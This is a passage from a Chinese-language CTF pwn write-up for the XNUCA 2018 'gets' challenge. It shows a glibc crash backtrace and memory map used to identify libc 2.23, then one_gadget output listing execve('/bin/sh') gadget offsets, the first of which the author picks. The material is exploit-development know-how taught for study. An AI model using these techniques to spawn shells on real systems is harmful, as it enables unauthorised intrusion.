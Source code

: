 最後發現報出瞭如下錯誤，一方面，我們可以判斷出這肯定是 2.23 版本的 libc；另外一方面，我們我們可以通過`(cfree+0x4c)[0x7f57b6f9253c]`來最終定位 libc 的版本。

```
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f57b6f857e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7f57b6f8e37a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7f57b6f9253c]
/lib/x86_64-linux-gnu/libc.so.6(+0xf2c40)[0x7f57b7000c40]
[0x7ffdec480f20]
======= Memory map: ========
00400000-00401000 r-xp 00000000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets
00600000-00601000 r--p 00000000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets
00601000-00602000 rw-p 00001000 00:28 48745                              /mnt/hgfs/CTF/2018/1124XNUCA/pwn/gets/gets
00b21000-00b43000 rw-p 00000000 00:00 0                                  [heap]
7f57b0000000-7f57b0021000 rw-p 00000000 00:00 0
7f57b0021000-7f57b4000000 ---p 00000000 00:00 0
7f57b6cf8000-7f57b6d0e000 r-xp 00000000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f57b6d0e000-7f57b6f0d000 ---p 00016000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f57b6f0d000-7f57b6f0e000 rw-p 00015000 08:01 914447                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f57b6f0e000-7f57b70ce000 r-xp 00000000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b70ce000-7f57b72ce000 ---p 001c0000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b72ce000-7f57b72d2000 r--p 001c0000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b72d2000-7f57b72d4000 rw-p 001c4000 08:01 914421                     /lib/x86_64-linux-gnu/libc-2.23.so
7f57b72d4000-7f57b72d8000 rw-p 00000000 00:00 0
7f57b72d8000-7f57b72fe000 r-xp 00000000 08:01 914397                     /lib/x86_64-linux-gnu/ld-2.23.so
7f57b74ec000-7f57b74ef000 rw-p 00000000 00:00 0
7f57b74fc000-7f57b74fd000 rw-p 00000000 00:00 0
7f57b74fd000-7f57b74fe000 r--p 00025000 08:01 914397                     /lib/x86_64-linux-gnu/ld-2.23.so
7f57b74fe000-7f57b74ff000 rw-p 00026000 08:01 914397                     /lib/x86_64-linux-gnu/ld-2.23.so
7f57b74ff000-7f57b7500000 rw-p 00000000 00:00 0
7ffdec460000-7ffdec481000 rw-p 00000000 00:00 0                          [stack]
7ffdec57f000-7ffdec582000 r--p 00000000 00:00 0                          [vvar]
7ffdec582000-7ffdec584000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

確定好了 libc 的版本後，我們可以選一個 one_gadget，這裏我選擇第一個，較低地址的。

```shell
➜  gets one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL
```